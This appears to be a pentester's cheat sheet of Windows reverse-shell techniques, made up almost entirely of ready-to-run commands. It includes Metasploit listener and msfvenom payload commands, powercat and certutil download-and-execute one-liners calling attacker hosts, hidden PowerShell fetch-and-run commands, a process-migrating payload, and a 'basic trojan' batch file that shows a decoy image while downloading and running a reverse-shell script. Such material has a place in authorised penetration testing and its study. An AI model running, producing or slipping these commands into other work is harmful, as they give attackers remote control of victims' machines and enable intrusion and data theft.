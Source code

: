 
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.104 lport=4444 –f exe > shell.exe


nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```



Hidden bind shell:
```bash
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```



get tty windows shell:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/shell.ps1')"
```


having cmd shell upgrade tty shell:
```bash
powershell.exe -NoLogo -NoExit -Command "$Host.UI.RawUI.WindowTitle = 'Upgraded Shell';"
```

Hiding Shell with Prepend Migrate using Msfvenom:

```bash
#this shell migrate between processes.
msfvenom –p windows/meterpreter/reverse_tcp lhost=192.168.1.104 lport=5555 prependmigrate=true prepenmigrateprocess=explorer.exe –f exe > /root/Desktop/raj.exe

```



powershell:
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.63.128 lport=3434 > reverse.bat 
```
https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/


Basic trojan:
```bash
@echo off

set "url1=https://prod-ripcut-delivery.disney-plus.net/v1/variant/disney/9B368B465A4DC909CDB6E799ACB64899B54E731B6D894FA5B080D75DB2F30533/scale?aspectRatio=1.78^&format=jpeg"
set "url2=http://192.168.63.128:8081/reverse.bat"

powershell -NoProfile -Command ^
"$urls = @('%url1%', '%url2%'); ^
foreach ($url in $urls) { ^
  $fn = Join-Path $env:TEMP ([System.IO.Path]::GetFileName($url).Split('?')[0]); ^
  try { Invoke-WebRequest -Uri $url -OutFile $fn -UseBasicParsing } catch { Write-Host 'Download failed for' $url; continue }; ^
  if (Test-Path $fn) { ^
    if ($fn -match '\.jpg$') { Start-Process mspaint.exe $fn } else { Start-Process $fn } ^
  } else { Write-Host 'File not found after download:' $fn } ^
}"
```

